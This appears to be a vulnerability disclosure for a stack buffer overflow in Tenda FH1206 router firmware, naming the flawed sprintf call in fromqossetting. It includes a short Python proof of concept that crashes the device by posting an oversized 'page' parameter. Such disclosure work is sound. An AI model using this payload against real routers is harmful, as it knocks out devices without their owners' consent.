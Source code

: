 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromqossetting` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v7, "qos_list.asp?page=%s", v4);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v7` array, thus triggering this security vulnerability.

![image](https://github.com/user-attachments/assets/e3cff71c-8b6a-4e16-b40c-5eeef7645cc0)


```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/qossetting"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)
